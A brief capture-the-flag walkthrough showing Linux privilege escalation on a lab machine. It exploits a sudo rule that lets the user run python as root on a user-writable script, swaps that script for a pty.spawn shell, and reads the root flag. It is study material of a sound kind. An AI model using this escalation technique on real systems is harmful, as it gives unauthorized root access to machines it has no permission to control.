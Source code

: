 1) I see the sudo privilege:
```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

2) I remove the file "bak.py", then I create another file with same name, but inside I write this script:
```python
import pty
pty.spawn("/bin/bash")
```

3) I add the execute privilege: 
```
meliodas@ubuntu:~$ chmod +x bak.py
```
5) Then I execute this file like sudo, and I read the root.txt:
```
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py
root@ubuntu:~# cat /root/root.txt
e8c8c6c256c35515d1d344ee0488c617
root@ubuntu:~# 
```

